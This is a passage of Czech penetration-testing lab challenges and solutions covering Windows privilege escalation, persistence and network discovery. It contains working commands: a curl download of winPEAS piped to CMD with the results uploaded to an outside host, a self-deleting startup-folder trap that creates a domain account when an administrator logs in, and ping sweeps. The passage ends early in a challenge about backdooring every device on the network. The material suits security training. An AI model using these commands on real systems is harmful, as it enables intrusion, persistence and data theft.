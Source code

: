 Challenge 18
------------
Úkol:	Zjistěte automatizovaně, zda cílový systém netrpí zranitelnostmi (například díky špatné konfiguraci),
	které by umožnili navýšení oprávnění

Řešení:	Na cílovém systému spustíme nástroj WINPEAS (LINPEAS)
		CURL https://raw.githubusercontent.com/peass-ng/PEASS-ng/refs/heads/master/winPEAS/winPEASbat/winPEAS.bat --output winPEAS.bat | CMD > %temp%\output.txt
		CURL --form file=@%temp%\output.txt http://1.2.3.170/save.php

Challenge 19
------------
Úkol:	Navyšte si oprávnění z běžného uživatele na administrátora (doménového administrátora)
	Cíl útoku: vytvořit nového doménového uživatele

Řešení:	Připravíme na administrátora pastičku, která sklapne při přihlášení admina k systému (past se spustí pod účtem přihlášeného uživatele - admina)
	Past musíme umístit do takového umístění, které je perzistentní a zajišťuje automatické spuštění pod právy přihlášeného uživatele
		- Registry: 		HKLM\Software\Microsoft\Windows\CurrentVersion\Run (RunOnce)
		- Složka StartUp:	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
		- atd.
	Pro zápis do perzistentních oblastí, které se vztahují na všechny uživatele, je potřeba mít vyšší oprávnění
	Nejprve bude nutné provést privilege escalation na účet System, který nám umožní zápis do perzistentních oblastí

	Vytvoříme BAT soubor ve složce STARTUP, jehož úkolem bude vytvořit nového doménového uživatele

	ECHO NET USER hackdomain heslo /add /domain > "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\past.bat"
	ECHO DEL "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\past.bat" >> "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\past.bat"
	TYPE "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\past.bat"

Challenge 20
------------
Úkol:	Identifikujte na síti všechna živá zařízení (IP adresy)
	Bez použití externích nástrojů

	Sekvenčně:
		FOR /L %i IN (1,1,254) DO PING 192.168.56.%i
		FOR /L %i IN (1,1,254) DO @PING -n 1 -w 100 192.168.56.%i | FINDSTR Reply
	Paralelně:
		FOR /L %i IN (1,1,5) DO START CMD /k "PING -n 1 -w 100 192.168.56.%i"
		FOR /L %i IN (1,1,254) DO @START /min CMD /c "PING -n 1 -w 100 192.168.56.%i"
		ARP -a
	
Challenge 21
------------
Úkol:	Vytvořte past, která po přihlášení administrátora na napadené stanici nasadí backdoor na všechna zařízení v síti
Řešení: Vytvoříme soubor past.bat, který vložíme na napadené stanici do složky StartUp a počkáme na přihlášení admina.
	